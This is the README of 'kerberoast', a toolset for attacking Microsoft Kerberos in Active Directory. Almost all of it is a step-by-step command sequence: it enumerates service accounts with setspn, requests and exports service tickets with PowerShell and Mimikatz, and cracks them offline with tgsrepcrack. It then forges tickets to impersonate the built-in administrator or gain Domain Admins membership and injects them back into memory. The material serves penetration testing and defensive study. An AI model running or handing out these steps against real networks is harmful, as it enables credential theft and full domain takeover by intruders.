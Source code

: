 kerberoast
==========

Kerberoast is a series of tools for attacking MS Kerberos implementations. Below is a brief overview of what each tool does.

Extract all accounts in use as SPN using built in MS tools
----------------------------------------------------------
```
PS C:\> setspn -T medin -Q */*
```

Request Ticket(s)
-----------------
One ticket:  
```
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"  
```

All the tickets
```
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> setspn.exe -T medin.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  
```

Extract the acquired tickets from ram with Mimikatz
---------------------------------------------------
```
mimikatz # kerberos::list /export
```

Crack with tgsrepcrack
----------------------
```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

Rewrite
-------
Make user appear to be a different user  
```
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -u 500  
```

Add user to another group (in this case Domain Admin)  
```
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -g 512  
```
Inject back into RAM with Mimikatz
----------------------------------
```
kerberos::ptt sql.kirbi
```
